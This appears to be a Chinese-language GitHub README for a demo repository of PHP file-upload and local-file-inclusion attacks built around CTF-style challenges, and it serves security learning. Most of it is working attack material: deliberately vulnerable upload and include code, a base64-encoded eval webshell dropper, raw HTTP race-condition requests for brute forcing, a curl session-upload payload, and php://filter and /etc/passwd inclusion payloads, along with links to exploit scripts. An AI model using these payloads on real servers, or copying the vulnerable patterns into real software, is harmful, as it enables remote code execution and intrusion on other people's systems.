



[toc]

# FileUpload LFI demo

## [unlink 文件上传 条件竞争](https://github.com/1nhann/FileUpload_LFI_demo/tree/master/unlink_race_condition)

```php
<?php
    // highlight_file(__FILE__);
  if(isset($_FILES["file"])){
    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $_FILES["file"]["name"]);
    $content = file_get_contents("upload/".$_FILES["file"]["name"]);
    if(strpos($content,"php")){
        echo "this is a php file!!!!!";
    }
    unlink("upload/".$_FILES["file"]["name"]);
}
?>
```
```php
<?php
    var_dump(base64_encode('<?php eval($_REQUEST["code"]);?>'));
    file_put_contents('shell.php',base64_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbImNvZGUiXSk7Pz4='));
?>
```


上传 恶意文件 evil.php

```
POST /test.php HTTP/1.1
Host: 172.31.102.71:12345
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 306
Content-Type: multipart/form-data; boundary=------------------------62d5b2d7e21dbde7

--------------------------62d5b2d7e21dbde7
Content-Disposition: form-data; name="file"; filename="evil.php"
Content-Type: application/octet-stream

<?php file_put_contents('shell.php',base64_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbImNvZGUiXSk7ID8+Cg=='));?>§1§

--------------------------62d5b2d7e21dbde7--
```

访问恶意文件

```
GET /upload/evil.php HTTP/1.1
Host: 172.31.102.71
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 1

§1§
```

用 burpsuite 爆破，不断同时访问这两个php

最终生成 upload/shell.php

### exp

#### 用 golang 写的 exp：

[unlink 删除文件 Golang exp](https://github.com/1nhann/FileUpload_LFI_demo/blob/master/unlink_race_condition/exp/exp.go)

#### 用 python 写的 exp：

[unlink 删除文件 python exp](https://github.com/1nhann/FileUpload_LFI_demo/blob/master/unlink_race_condition/exp/exp.py)


---

## [session upload_progress 文件包含 条件竞争](https://github.com/1nhann/FileUpload_LFI_demo/tree/master/session_race_condition_lfi)

```php
<?php
show_source(__FILE__);
// flag in /flag.php
if(isset($_GET["file"])){
    $file = $_GET["file"];
    if(preg_match("/flag/",$file)){
        die("no flag !!!");
    }
    include $file;
}
```


phpinfo

| Directive                       | Local Value                 | Master Value                |
| ------------------------------- | --------------------------- | --------------------------- |
| session.upload_progress.cleanup | On                          | On                          |
| session.upload_progress.enabled | On                          | On                          |
| session.use_strict_mode         | 0                           | 0                           |
| session.save_path               | /var/lib/php/sessions       | /var/lib/php/sessions       |
| session.upload_progress.name    | PHP_SESSI0N_UPLOAD_PROGRESS | PHP_SESSI0N_UPLOAD_PROGRESS |
| session.upload_progress.prefix  | upload_progress_            | upload_progress_            |

（注意我出的这题，PHP_SESSI0N_UPLOAD_PROGRESS 的 SESSI0N 是 零（0）不是 O）


```php
<?php
    var_dump(base64_encode('<?php eval($_REQUEST["code"]);?>'));
    file_put_contents('shell.php',base64_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbImNvZGUiXSk7Pz4='));
?>
```


```
POST /index.php?file=/var/lib/php/sessions/sess_shell HTTP/1.1
Host: 127.0.0.1
Hello: §1§
User-Agent: curl/7.68.0
Accept: */*
Cookie: PHPSESSID=shell
Content-Length: 420
Content-Type: multipart/form-data; boundary=------------------------0429a53d19de00c3
Connection: close

--------------------------0429a53d19de00c3
Content-Disposition: form-data; name="PHP_SESSI0N_UPLOAD_PROGRESS"

aaa
--------------------------0429a53d19de00c3
Content-Disposition: form-data; name="a"; filename="<?php file_put_contents('shell.php',base64_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbImNvZGUiXSk7Pz4='));phpinfo();?>"
Content-Type: application/octet-stream

1

--------------------------0429a53d19de00c3--
```

* 看 phpinfo ，知道 session 的位置 `/var/lib/php/sessions/`

*  `Cookie: PHPSESSID=shell` 设置 session 的名称为 `sess_shell`

* 文件上传前，放个值键对 ，键是 `PHP_SESSION_UPLOAD_PROGRESS`
* 改上传文件的 `name` 或者 `filename` 为 webshell
* 写webshell 的目录要注意可写

爆破，10个线程（远程也可能失败，受制于网络？）

### exp

#### 用 golang 写的 exp：

[session upload_progress 文件包含 Golang exp](https://github.com/1nhann/FileUpload_LFI_demo/blob/master/session_race_condition_lfi/exp/exp.go)


## [session upload_progress session未被清理 直接包含](https://github.com/1nhann/FileUpload_LFI_demo/tree/master/session_not_clean_lfi)

phpinfo

| Directive                       | Local Value                 | Master Value                |
| ------------------------------- | --------------------------- | --------------------------- |
| session.upload_progress.cleanup | Off                         | Off                         |
| session.upload_progress.enabled | On                          | On                          |
| session.use_strict_mode         | 0                           | 0                           |
| session.save_path               | /var/lib/php/sessions       | /var/lib/php/sessions       |
| session.upload_progress.name    | PHP_SESSION_UPLOAD_PROGRESS | PHP_SESSI0N_UPLOAD_PROGRESS |
| session.upload_progress.prefix  | upload_progress_            | upload_progress_            |


```shell
curl -F "PHP_SESSION_UPLOAD_PROGRESS=aaa" -F '<?php phpinfo();?>=@evil.php'  http://127.0.0.1:12345/phpinfo.php --cookie "PHPSESSID=shell"
```

### exp

#### 用 python 写的 exp：

[session upload_progress 文件包含 直接包含 exp python](https://github.com/1nhann/FileUpload_LFI_demo/blob/master/session_not_clean_lfi/exp/exp.py)


## [phpinfo 临时文件包含 条件竞争](https://github.com/1nhann/FileUpload_LFI_demo/tree/master/iphpinfo_lfi)

参考：https://github.com/vulhub/vulhub/tree/master/php/inclusion

* phpinfo页面会将当前请求上下文中所有变量都打印出来
* 在 php 还没有将所有信息输出之前，临时文件不会被删除

考虑在 `$_FILES` 后面的内容中填充垃圾信息，使得 php 输出所有信息的时间尽量延长



``

题干：

```php
<?php
show_source(__FILE__);
@include($_GET["file"]);
phpinfo();
```


### exp

#### 用 python 写的 exp：

[phpinfo LFI rce python](https://github.com/1nhann/FileUpload_LFI_demo/blob/master/iphpinfo_lfi/exp/exp.py)

#### 用 golang 写的 exp：

[phpinfo LFI rce golang](https://github.com/1nhann/FileUpload_LFI_demo/blob/master/iphpinfo_lfi/exp/exp.go)


## [php://filter/string.strip_tags 令 php7.0 崩溃](https://github.com/1nhann/FileUpload_LFI_demo/tree/master/include_crash)

适用版本：

> * php7.0.0-7.1.2可以利用， 7.1.2x版本的已被修复 
>
> * php7.1.3-7.2.1可以利用， 7.2.1x版本的已被修复 
>
> * php7.2.2-7.2.8可以利用， 7.2.9一直到7.3到现在的版本已被修复

适用函数：

> include、require ............

```php
<?php
show_source(__FILE__);
if(isset($_GET["file"])){
    $file = $_GET["file"];
    if(preg_match("/flag/",$file)){
        die("no flag !!!");
    }
    include $file;
}
```


payload：

```
include.php?file=php://filter/string.strip_tags/resource=/etc/passwd
```

成功：

`php7.0.3.3`：




## 自包含，延长临时文件存在的时间

payload：

```
index.php?file=index.php
```




